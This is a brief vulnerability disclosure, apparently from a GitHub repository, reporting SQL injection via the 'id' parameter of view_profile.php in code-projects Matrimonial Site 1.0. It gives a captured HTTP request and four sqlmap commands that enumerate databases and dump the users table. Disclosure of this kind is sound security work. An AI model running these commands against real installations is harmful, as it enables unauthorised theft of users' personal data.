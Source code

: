 # tesc
Vulnerability Report: SQL Injection in code-projects Matrimonial Site 1.0
## Affected Component
- **File**: `/view_profile.php?id=1`
- **Vulnerability**: SQL Injection via the `id` parameter.

---

## Captured HTTP Request
```http
GET /view_profile.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/search-id.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=pvm9s24kls26lgqj0730spgclj
Connection: keep-alive```



Using sqlmap tool:
1. Enumerate Databases
python sqlmap.py -r 1 -p id --batch --dbs
2. Select Target Database (matrimony)
python sqlmap.py -r 1 -p id --batch -D matrimony
3. List Tables in matrimony Database
python sqlmap.py -r 1 -p id --batch -D matrimony -tables
4. Dump Data from users Table
python sqlmap.py -r 1 -p id --batch -D matrimony -T users --dump
This will lead to leakage of user information.
